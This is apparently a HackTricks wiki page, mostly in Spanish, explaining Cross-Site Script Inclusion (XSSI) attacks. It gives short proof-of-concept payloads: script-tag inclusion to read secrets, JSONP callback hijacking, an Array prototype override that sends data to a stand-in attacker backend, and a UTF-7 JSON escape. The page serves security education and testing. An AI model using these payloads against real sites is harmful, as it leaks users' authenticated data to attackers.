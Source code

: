 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Basic Information

**Cross-Site Script Inclusion (XSSI)** es una vulnerabilidad que surge de la naturaleza de la etiqueta `script` en HTML. A diferencia de la mayoría de los recursos, que están sujetos a la **Same-Origin Policy (SOP)**, los scripts pueden ser incluidos desde diferentes dominios. Este comportamiento está destinado a facilitar el uso de bibliotecas y otros recursos alojados en diferentes servidores, pero también introduce un riesgo potencial de seguridad.

### Key Characteristics of **XSSI**:
- **Bypass of SOP**: Los scripts están exentos de la **Same-Origin Policy**, lo que les permite ser incluidos entre dominios.
- **Data Exposure**: Un atacante puede explotar este comportamiento para leer datos cargados a través de la etiqueta `script`.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** es particularmente relevante para JavaScript dinámico o **JSON with Padding (JSONP)**. Estas tecnologías a menudo utilizan información de "autoridad ambiental" (como cookies) para la autenticación. Cuando se realiza una solicitud de script a un host diferente, estas credenciales (por ejemplo, cookies) se incluyen automáticamente en la solicitud.
- **Authentication Token Leakage**: Si un atacante puede engañar al navegador de un usuario para que solicite un script de un servidor que controla, podría acceder a información sensible contenida en estas solicitudes.

### Types

1. **Static JavaScript** - Esta representa la forma convencional de XSSI.
2. **Static JavaScript with Authentication** - Este tipo es distinto porque requiere autenticación para acceder.
3. **Dynamic JavaScript** - Involucra JavaScript que genera contenido dinámicamente.
4. **Non-JavaScript** - Se refiere a vulnerabilidades que no involucran JavaScript directamente.

**The following information is a sumary of [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Check it for further details.


### Regular XSSI
En este enfoque, la información privada está incrustada dentro de un archivo JavaScript accesible globalmente. Los atacantes pueden identificar estos archivos utilizando métodos como lectura de archivos, búsquedas de palabras clave o expresiones regulares. Una vez localizados, el script que contiene información privada puede ser incluido en contenido malicioso, permitiendo el acceso no autorizado a datos sensibles. A continuación se muestra una técnica de explotación de ejemplo:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI y Authenticated-JavaScript-XSSI
Estos tipos de ataques XSSI implican que información confidencial se añade dinámicamente al script en respuesta a la solicitud de un usuario. La detección se puede realizar enviando solicitudes con y sin cookies y comparando las respuestas. Si la información difiere, puede indicar la presencia de información confidencial. Este proceso se puede automatizar utilizando herramientas como la extensión de Burp [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS).

Si los datos confidenciales se almacenan en una variable global, se pueden explotar utilizando métodos similares a los utilizados en XSSI Regular. Sin embargo, si los datos confidenciales se incluyen en una respuesta JSONP, los atacantes pueden secuestrar la función de callback para recuperar la información. Esto se puede hacer manipulando objetos globales o configurando una función para ser ejecutada por la respuesta JSONP, como se demuestra a continuación:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Para variables que no residen en el espacio de nombres global, *prototype tampering* a veces puede ser explotado. Esta técnica aprovecha el diseño de JavaScript, donde la interpretación del código implica recorrer la cadena de prototipos para localizar la propiedad llamada. Al anular ciertas funciones, como `Array`'s `slice`, los atacantes pueden acceder y leak variables no globales:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Más detalles sobre los vectores de ataque se pueden encontrar en el trabajo del investigador de seguridad [Sebastian Lekies](https://twitter.com/slekies), quien mantiene una lista de [vectores](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
La investigación de Takeshi Terada introduce otra forma de XSSI, donde archivos Non-Script, como CSV, son filtrados entre orígenes al ser incluidos como fuentes en una etiqueta `script`. Instancias históricas de XSSI, como el ataque de Jeremiah Grossman en 2006 para leer una libreta de direcciones completa de Google y la filtración de datos JSON de Joe Walker en 2007, destacan la gravedad de estas amenazas. Además, Gareth Heyes describe una variante de ataque que involucra JSON codificado en UTF-7 para escapar del formato JSON y ejecutar scripts, efectiva en ciertos navegadores:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
